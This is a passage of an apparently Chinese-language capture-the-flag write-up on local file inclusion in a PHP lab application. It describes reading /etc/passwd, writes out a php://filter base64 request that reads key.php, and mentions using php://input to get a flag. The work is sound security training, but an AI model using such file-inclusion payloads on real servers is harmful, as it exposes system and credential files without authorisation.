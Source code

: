 发现 url 存在文件包含

![image.png](https://img.ghostliner.top/MjFwwl.png)

尝试获取 `/etc/passwd`，成功

![image.png](https://img.ghostliner.top/LbLw4m.png)

获取到 `key.php`，发现提示：

1. 使用 php://input
2. 使用 php://filter/convert.base64-encode/resource=

![image.png](https://img.ghostliner.top/KeTOVW.png)

使用 php://filter 获取文件内容

```r
http://192.168.163.129:27149/vulnerabilities/fu1.php?file=php://filter/convert.base64-encode/resource=../key.php
```

base64 数据：

```text
R2V0IGl0IQ0K5Y+v5Lul5L2/55SocGhw5Lyq5Y2P6K6uDQox44CBcGhwOi8vaW5wdXQgcG9zdOS8oOmAkuWPguaVsA0KMuOAgXBocDovL2ZpbHRlci9jb252ZXJ0LmJhc2U2NC1lbmNvZGUvcmVzb3VyY2U9DQo8P3BocA0KDQovL2tleTpmbGFnIGluIC90bXANCj8+
```

解码得到文本：

```text
Get it! ????????????php????????? 1?€?php://input post????€??????? 2?€?ph
p://filter/convert.base64-encode/resource= <?php //key:flag in /tmp ?>
```

使用 php://input 获取 flag

![image.png](https://img.ghostliner.top/ygah0F.png)

flag 值

![image.png](https://img.ghostliner.top/GolHnK.png)

## 9. 文件包含（二）

![image.png](https://img.ghostliner.top/IuDt2N.png)

获取 `/etc/passwd` 失败

![image.png](https://img.ghostliner.top/jmx6hE.png)

使用其他协议测试都报错，直接访问 `view.html`，获取到源码

![image.png](https://img.ghostliner.top/klrYfm.png)
